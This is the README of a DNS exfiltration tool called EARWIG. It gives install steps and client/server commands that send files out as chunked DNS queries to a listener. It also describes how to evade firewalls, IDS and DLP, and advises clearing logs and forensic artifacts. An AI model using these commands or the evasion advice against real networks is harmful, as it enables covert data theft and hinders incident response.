


# EARWIG - Advanced DNS Exfiltration Tool
<p align="center">
  
</p>

<p align="center">


<br>


</p>

# ⚠️ LEGAL DISCLAIMER

WARNING: This tool is designed for legitimate security testing, penetration testing, and educational purposes only. Users must have explicit written authorization from the system owner before using this tool. Unauthorized use of this tool may violate laws and regulations. The developers assume no liability for any misuse or damage caused by this tool. USE RESPONSIBLY AND ETHICALLY.

---

📋 Overview

EARWIG is a sophisticated gray hat hacking tool that enables covert data transfer through DNS (Domain Name System) requests. By leveraging the fundamental DNS protocol, EARWIG can exfiltrate files from compromised networks without detection by traditional security monitoring tools, making it an essential component of any penetration tester's arsenal.

🎯 Primary Purpose

EARWIG serves as a DNS tunneling and data exfiltration framework designed to:

· Bypass network security controls (firewalls, IDS/IPS)
· Evade data loss prevention (DLP) systems
· Transfer files from restricted networks
· Establish covert communication channels
· Test DNS security configurations

---

🔥 Key Features

Core Capabilities

· DNS Protocol Exploitation: Transmits data via legitimate DNS queries to avoid detection
· Advanced Encryption: RC4 stream cipher for data protection
· Multiple Encoding Formats: Supports Base64URL, Base32, and Base64
· Data Compression: Optional zlib compression to reduce transfer size
· Chunked Transfers: Splits large files into manageable DNS query-sized pieces
· Real-time Progress Tracking: Visual feedback during transfers
· Multi-threaded Server: Concurrent processing of multiple clients
· Persistent State Management: Resume interrupted transfers
· Automatic Retry: Built-in retry mechanism with exponential backoff
· Legacy Mode: Backward compatibility with older EARWIG versions

# (root is required for using this tool)

Technical Specifications

Feature Details
Protocol DNS (UDP/53)
Max File Size 100 MB
Chunk Size 57-63 bytes (configurable)
Encoding Base64URL / Base32
Encryption RC4 Stream Cipher
Compression zlib (optional)
Concurrent Clients Up to 10 (configurable)
Timeout Handling Configurable (default: 60s)

---

💻 Installation & Requirements

Prerequisites

```bash
Python 3.6 or higher
Linux/Unix environment (recommended)
Subprocess module
Socket module
```

Quick Installation

```bash
# Clone the repository
git clone https://github.com/sylhetyhackvenger/EARWIG

# Navigate to directory
cd EARWIG 

# Install dependencies
pip install -r requirements.txt

# Make executable (optional)
chmod +x earwig.py
```

---

🚀 Usage Guide

Server Mode (Receiving Files)

```bash
# Basic server
sudo python earwig.py server -i 0.0.0.0

# Server with password protection
sudo python earwig.py server -i 0.0.0.0 -p MySecurePassword

# Verbose mode with encryption
sudo python earwig.py server -i 0.0.0.0 -p secret -v

# Advanced configuration
sudo python earwig.py server -i 0.0.0.0 -p password -s 6 -b 60 -c 15 -t 120
```

Client Mode (Sending Files)

```bash
# Basic file transfer
sudo python earwig.py client -t 192.168.1.100 -d example.com -f secret.zip

# With encryption
sudo python earwig.py client -t 192.168.1.100 -d example.com -p MyPassword -f document.pdf

# Use Base32 encoding
sudo python earwig.py client -t 192.168.1.100 -d example.com -f data.txt -b32

# Disable compression
sudo python earwig.py client -t 192.168.1.100 -d example.com -f largefile -n

# Custom chunk configuration
sudo python earwig.py client -t 192.168.1.100 -d example.com -f backup.tar -s 8 -B 60 -r 5 -w 10
```

---

🔍 How It Works

Data Flow Architecture

```
┌─────────────┐     ┌─────────────┐     ┌─────────────┐
│   Client    │────▶│   DNS       │────▶│   Server    │
│  (Target)   │     │   Protocol  │     │ (Listener)  │
└─────────────┘     └─────────────┘     └─────────────┘
      │                    │                    │
      │  1. Encrypt       │  2. Encode        │  3. Reassemble
      │  4. Compress      │  5. Split         │  6. Decrypt
      └────────────────────┴────────────────────┘
```

<div align="center">


</div>

Step-by-Step Process

1. File Preparation: The file is read and metadata (name, timestamps, permissions) is extracted
2. Compression: Optional zlib compression reduces data size
3. Encryption: RC4 encryption with user-provided password
4. Encoding: Data is encoded as Base64URL or Base32
5. Chunking: Encoded data is split into DNS-safe chunks (≤63 bytes)
6. Transmission: Each chunk is sent as a DNS query to the specified server
7. Reception: Server receives queries and reassembles chunks
8. Decoding: Data is decoded from Base64/Base32
9. Decryption: RC4 decryption with the same password
10. Decompression: Optional zlib decompression
11. File Reconstruction: Original file is reconstructed with metadata

---

🛡️ Security & Evasion Features

Evasion Techniques

· DNS Protocol Mimicry: All traffic appears as legitimate DNS queries
· Fragmented Transfers: Data is split across multiple DNS requests
· Variable Encoding: Multiple encoding formats supported
· Optional Encryption: RC4 stream cipher for payload protection
· No Persistent Connections: Uses UDP, no connection state to track
· Standard Port: Uses port 53, typically allowed through firewalls

Detection Avoidance

· Low footprint on target system
· No additional binaries required (native Python)
· Clean logs and minimal system impact
· Can operate through proxy and VPN connections

---

🎯 Use Cases

Ethical Hacking Scenarios

1. Penetration Testing: Transfer test files from compromised systems
2. Security Audits: Test DNS security configurations
3. Data Recovery: Retrieve files from restricted networks
4. Red Team Operations: Covert data exfiltration during exercises
5. Compliance Testing: Verify DLP and monitoring systems

Gray Hat Applications

· Security Research: Understanding DNS tunneling techniques
· Education: Teaching about covert channels
· Legitimate Exfiltration: Recovering legitimate data from inaccessible systems

---

🔬 Technical Deep Dive

Protocol Structure

```
DNS Query Format:
┌─────────────────────────────────────┐
│ Header (12 bytes)                   │
├─────────────────────────────────────┤
│ Question Section                    │
│  - QNAME (domain name)             │
│  - QTYPE (A record)                │
│  - QCLASS (IN)                     │
├─────────────────────────────────────┤
│ Encoded Payload (in QNAME)         │
└─────────────────────────────────────┘
```

Chunk Structure

```
Chunk Format (for client-server communication):
[chunk_index].[chunk_data].[domain]

Example:
0.5L2Rw9b3cG8aV.example.com
```

Encryption Details

· Algorithm: RC4 stream cipher
· Key Length: Variable (user-provided)
· Mode: Synchronous (same key for encryption/decryption)
· Implementation: Byte-by-byte XOR operation

---

📊 Performance Metrics

File Size Chunk Size Chunks Transfer Time
1 MB 57 bytes 18,400 ~2 minutes
10 MB 60 bytes 175,000 ~20 minutes
50 MB 63 bytes 833,333 ~90 minutes

Times approximate based on 100ms per DNS query

---

<p align="center">
  
</p>

🛠️ Advanced Configuration

Server Optimization

```bash
# High-performance server
sudo python earwig.py server -i 0.0.0.0 -c 20 -t 120 -b 60

# Low-resource server
sudo python earwig.py server -i 0.0.0.0 -c 3 -t 180
```

Client Optimization

```bash
# Fast transfer (larger chunks)
sudo python earwig.py client -t 192.168.1.100 -d domain.com -f file.bin -B 63 -s 10

# Reliable transfer (retry on failure)
sudo python earwig.py client -t 192.168.1.100 -d domain.com -f critical.doc -r 10 -w 15
```

---

🔒 Security Considerations

Best Practices

1. Use Strong Passwords: At least 16 characters with mixed case
2. Enable Compression: Reduces transfer time and footprint
3. Limit Concurrent Transfers: Avoid overwhelming the server
4. Monitor Logs: Regular review of transfer logs
5. Clean Up: Remove transferred files after use
6. Use Encryption: Always encrypt sensitive data
7. Verify Integrity: Check MD5 checksums of received files

Risk Mitigation

· Detection Risk: Use during off-peak hours
· Blocking Risk: Vary domains and IP addresses
· Forensic Evidence: Clean logs and remove artifacts
· Legal Risk: Ensure proper authorization before use

---

🐛 Troubleshooting

Common Issues

Issue Solution
Connection refused Check DNS server IP and firewall rules
Timeout errors Increase timeout values or check network
Decryption failed Verify password is correct
Incomplete chunks Ensure DNS responses are received
Port 53 in use Stop other DNS services (systemd-resolved)
Permission denied Run with sudo or set capabilities

Debugging

```bash
# Verbose mode for detailed output
sudo python earwig.py server -v -i 0.0.0.0

# Check DNS resolution
dig @192.168.1.100 test123.example.com +short

# View DNS traffic
tcpdump -i any -n port 53
```

---

🤝 Ethical Guidelines

Acceptable Use

· Written authorization from system owner
· Legitimate security testing purposes
· Educational and research activities
· Security audits and compliance testing

Unacceptable Use

· Unauthorized data access or transfer
· Malicious exfiltration of sensitive data
· Testing without proper authorization
· Any activity violating applicable laws

Professional Conduct

1. Always obtain written permission
2. Document all activities
3. Maintain confidentiality
4. Report findings responsibly
5. Clean up after testing
6. Follow organizational guidelines

---

📚 Additional Resources

Related Concepts

· DNS Tunneling
· Data Exfiltration Techniques
· Covert Channels
· RC4 Cryptography
· Base64 Encoding

Security Frameworks

· MITRE ATT&CK Framework
· OWASP Testing Guide
· NIST Cybersecurity Framework
· PTES (Penetration Testing Execution Standard)

---

📞 Contact & Support

· GitHub: github.com/sylhetyhackvenger/earwig
· Issues: Report bugs via GitHub Issues

---

# ⚖️ License

This project is licensed under the MIT License - see the LICENSE file for details.

---

Remember: With great power comes great responsibility. Use this tool ethically and legally to improve security, not to exploit it. 🛡️

---

"Security is not a product, but a process." - Bruce Schneier
